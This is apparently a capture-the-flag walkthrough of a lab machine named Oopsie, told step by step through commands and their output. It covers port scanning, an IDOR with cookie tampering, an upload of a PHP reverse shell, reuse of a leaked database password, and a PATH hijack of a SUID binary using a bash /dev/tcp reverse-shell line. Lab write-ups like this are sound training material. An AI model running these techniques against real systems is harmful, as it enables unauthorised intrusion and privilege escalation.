









## Scenario

Access via: `http://10.129.142.7`

## Initial Enumeration

I ran a full TCP port scan against the target first, to make sure nothing outside the usual web and SSH ports was open.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sudo nmap 10.129.142.7 -p- -T4
[sudo] password for —REDACTED—:
Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-22 23:23 +0200
Nmap scan report for 10.129.142.7
Host is up (0.037s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 38.73 seconds
```

Only ports 22 and 80 were open, so I followed up with a version and script scan against just those two.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sudo nmap 10.129.142.7 -p22,80 -sV -sC
Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-22 23:24 +0200
Nmap scan report for 10.129.142.7
Host is up (0.034s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 61:e4:3f:d4:1e:e2:b2:f1:0d:3c:ed:36:28:36:67:c7 (RSA)
|   256 24:1d:a4:17:d4:e3:2a:9c:90:5c:30:58:8f:60:77:8d (ECDSA)
|_  256 78:03:0e:b4:a1:af:e5:c2:f9:8d:29:05:3e:29:c9:f2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Welcome
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.66 seconds
```

This confirmed Apache 2.4.29 on Ubuntu for the web server, and OpenSSH 7.6p1 on port 22.

## Discovering the Login Portal

Browsing to the site landed on a MegaCorp Automotive front page.


All of the navigation links and buttons on the page were cosmetic and didn't lead anywhere. The Services section, though, pointed at something real:



This confirmed there was a login-gated area somewhere on the site, even though nothing on the page linked to it. My first instinct was to fuzz for a hidden subdirectory, subdomain or vhost, but due to the hints given, intercepting and spidering the site's own traffic seemed like the more direct route to an undisclosed login path, so I ran the site through Burp Suite instead.



This turned up a `/cdn-cgi/login/` path, along with a request that already carried username and password parameters. The login page itself also offered a "login as guest" option, so I used that first.


## Privilege Escalation via IDOR and Cookie Tampering

Clicking the guest login redirected into `/cdn-cgi/login/admin.php`:


The Uploads tab looked interesting, but as a guest it wasn't accessible, only admins could reach it, so getting there meant finding a privilege escalation path within the site itself. Clicking Account brought up the following:

```
http://10.129.142.7/cdn-cgi/login/admin.php?content=accounts&id=2
```



This showed an access ID, name, and email for the guest account. I also checked the browser's cookies at this point:



There were `role` and `user` cookie values sitting alongside the access ID shown on the page. The first thing to try was a plain IDOR, changing `id=2` to `id=1` in the URL:

```
http://10.129.142.7/cdn-cgi/login/admin.php?content=accounts&id=1
```



That returned the admin account's access ID, name and email. With the admin's access ID in hand, I changed the `role` cookie to `admin` and the `user` cookie to the admin's access ID, `34322`:



Reloading the page and clicking Uploads then showed the upload functionality that had been hidden from the guest account.

## Exploring the Upload Functionality



Checking the page source showed where the form posted to:



Beyond the endpoint itself, the source didn't give anything else away, so the next step was just to try uploading a file and see what happened. I created a small local test file:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ echo 'test' > test.txt
```

Uploading `test.txt` through the form worked, and the page confirmed it. 

The confirmation didn't say where the file had actually landed, though. To check whether the response carried anything more useful, I repeated the upload with Burp's intercept turned on and sent the captured request to Repeater. However, nothing in the response indicated where the uploaded file went, so I fell back on fuzzing for directories:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ ffuf -u 'http://10.129.142.7/FUZZ' -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -ic -c

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.3.0
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.142.7/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

themes                  [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 36ms]
uploads                 [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 35ms]
images                  [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 843ms]
css                     [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 35ms]
                        [Status: 200, Size: 10932, Words: 1345, Lines: 479, Duration: 1847ms]
js                      [Status: 301, Size: 309, Words: 20, Lines: 10, Duration: 35ms]
[WARN] Caught keyboard interrupt (Ctrl-C)
```

An `uploads` directory turned up almost immediately, matching where the file was most likely saved. Browsing to it directly confirmed this:

```
http://10.129.142.7/uploads/test.txt
```



## Gaining a Foothold

With a working arbitrary file upload into a reachable web directory, the next step was a PHP reverse shell. I copied a prebuilt one locally and set the listener address in it.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ cp /usr/share/laudanum/php/php-reverse-shell.php ./php-rev-shell.php
```

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ nano php-rev-shell.php
```

I changed the `LHOST` value inside the script to my own IP, then uploaded `php-rev-shell.php` through the same branding upload form used for `test.txt`. Before triggering it, I set up a listener:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ nc -lvnp 8888
listening on [any] 8888 ...
```

With the listener running, I browsed to the uploaded shell to trigger it:

```
http://10.129.142.7/uploads/php-rev-shell.php
```

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ nc -lvnp 8888
listening on [any] 8888 ...
connect to [—REDACTED—] from (UNKNOWN) [10.129.142.7] 52520
Linux oopsie 4.15.0-76-generic #86-Ubuntu SMP Fri Jan 17 17:24:28 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 21:54:30 up 33 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

This gave a shell as `www-data`. I stabilised and upgraded it:

```shell
$ which python
$ which python3
/usr/bin/python3
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@oopsie:/$ ^Z
zsh: suspended  nc -lvnp 8888

┌──(—REDACTED—㉿kali)-[~]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 8888

www-data@oopsie:/$ export TERM=tmux-256color
www-data@oopsie:/$ stty rows 52 cols 236
```

## Credential Reuse to robert

As `www-data`, the box wasn't yet compromised as a real user, so the next step was finding a way to that user. I checked `/etc/passwd` to see what accounts existed:

```shell
www-data@oopsie:/var/www$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
robert:x:1000:1000:robert:/home/robert:/bin/bash
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
```

This showed a `robert` account with a real login shell. I also checked environment variables and the crontab, and found nothing useful in either, so I moved on to searching for a password directly:

```shell
grep -rn / -ie password 2>/dev/null
```

This was too noisy to use, so I filtered it:

```shell
grep -rn / -ie password 2>/dev/null | grep -Ev '(snap|proc|bin)'
```

This still didn't return anything useful. Instead of searching the whole filesystem, I looked for the web app's own PHP files to see if a config file was among them:

```shell
www-data@oopsie:/var/www/html$ find . -type f -name "*.php" 2>/dev/null
./index.php
./cdn-cgi/login/index.php
./cdn-cgi/login/admin.php
./cdn-cgi/login/db.php
```

There was no file literally named `config.php`, but `db.php` looked promising:

```shell
www-data@oopsie:/var/www/html$ cat ./cdn-cgi/login/db.php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
```

This contained robert's database credentials. The next thing to try was whether that password had been reused for his system account:

```shell
www-data@oopsie:/var/www/html$ su robert
Password:
robert@oopsie:/var/www/html$
```

It worked. I then went to robert's home directory and found the user flag:

```shell
robert@oopsie:/var/www/html$ cd ~
robert@oopsie:~$ ls
user.txt
robert@oopsie:~$ cat user.txt
—REDACTED—
```

### Question — Submit the flag located in the robert user's home directory.

**Answer:** `—REDACTED—`

## Privilege Escalation to root

With a foothold as robert, the next step was looking for a path to root. Based on the hints given via the questions, I checked for files owned by the `bugtracker` group:

```shell
robert@oopsie:~$ find / -type f -group bugtracker -ls 2>/dev/null
   264151     12 -rwsr-xr--   1 root     bugtracker     8792 Jan 25  2020 /usr/bin/bugtracker
```

The listing showed `/usr/bin/bugtracker` with the SUID bit set, owned by root but in the bugtracker group, meaning it runs with root's privileges regardless of who starts it. I pulled the printable strings out of the binary to see what it was doing internally:

```shell
robert@oopsie:~$ strings /usr/bin/bugtracker
/lib64/ld-linux-x86-64.so.2
libc.so.6
setuid
strcpy
__isoc99_scanf
__stack_chk_fail
putchar
printf
strlen
malloc
strcat
system
geteuid
__cxa_finalize
__libc_start_main
GLIBC_2.7
GLIBC_2.4
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
AWAVI
AUATL
[]A\A]A^A_
------------------
: EV Bug Tracker :
------------------
Provide Bug ID:
---------------
cat /root/reports/
```

The output showed the program calling `cat /root/reports/` with no full path to `cat`, meaning it relies on the PATH environment variable to find it, and therefore exploitable through PATH hijacking—placing a malicious `cat` earlier in the PATH than the real one. I moved to `/tmp` by default and confirmed it was writable:

```shell
robert@oopsie:/tmp$ echo 'writeable?' > test.txt
robert@oopsie:/tmp$ ls
test.txt
```

I then created a fake `cat` in `/tmp` that spawns a reverse shell instead of reading a file (though this wasn't really necessary on hindsight, and I could've just make it spawn a shell instead):

```shell
robert@oopsie:/tmp$ echo 'bash -c "bash -i >& /dev/tcp/—REDACTED—/1234 0>&1"' > cat
robert@oopsie:/tmp$ chmod 777 cat
robert@oopsie:/tmp$ ls
cat  test.txt
```

To make sure the fake `cat` would actually be picked up, I prepended `/tmp` to the PATH:

```shell
robert@oopsie:/tmp$ export PATH=/tmp:$PATH
robert@oopsie:/tmp$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
```

With everything in place, I started a listener on the chosen port:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
```

Then ran `bugtracker` so it would call the hijacked `cat`:

```shell
robert@oopsie:/tmp$ /usr/bin/bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: root
---------------
```

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [—REDACTED—] from (UNKNOWN) [10.129.142.7] 32956
```

This caught a shell running as root. The first attempt to read the root flag failed unexpectedly:

```shell
root@oopsie:/root# cat root.txt
bash: connect: Connection refused
bash: /dev/tcp/—REDACTED—/1234: Connection refused
root@oopsie:/root# ls
reports  root.txt
```

I was confused with a moment, but then realised quickly what was happening. Checking the PATH confirmed the fake `cat` was being picked up:

```shell
root@oopsie:/root# echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
```

So I called the real binary by its full path instead to avoid the hijacked one:

```shell
root@oopsie:/root# /bin/cat root.txt
—REDACTED—
```

### Question — Submit the flag located in root's home directory.

**Answer:** `—REDACTED—`